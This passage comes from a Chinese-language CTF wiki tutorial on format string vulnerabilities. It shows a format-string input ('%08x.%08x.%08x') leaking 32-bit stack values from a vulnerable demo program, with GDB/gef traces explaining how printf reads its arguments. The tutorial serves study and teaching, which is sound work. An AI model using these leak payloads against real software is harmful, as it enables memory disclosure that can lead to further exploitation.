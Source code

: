 可以看出，編譯器指出了我們的程序中沒有給出格式化字符串的參數的問題。下面，我們來看一下，如何獲取對應的棧內存。

根據C語言的調用規則，格式化字符串函數會根據格式化字符串直接使用棧上自頂向上的變量作爲其參數(64位會根據其傳參的規則進行獲取)。這裏我們主要介紹32位。

#### 獲取棧變量數值

首先，我們可以利用格式化字符串來獲取棧上變量的數值。我們可以試一下，運行結果如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffcfc400.000000c2.f765a6bb
```

可以看到，我們確實得到了一些內容。爲了更加細緻的觀察，我們利用GDB來調試一下，以便於驗證我們的想法，這裏刪除了一些不必要的信息，我們只關注代碼段以及棧。

首先，啓動程序，將斷點下在printf函數處

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
```

之後，運行程序

```shell
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%08x.%08x.%08x
```

此時，程序等待我們的輸入，這時我們輸入%08x.%08x.%08x，然後敲擊回車，是程序繼續運行，可以看出程序首先斷在了第一次調用printf函數的位置

```shell
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 沒有那個文件或目錄.
────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x1c: 0x000000c2
```
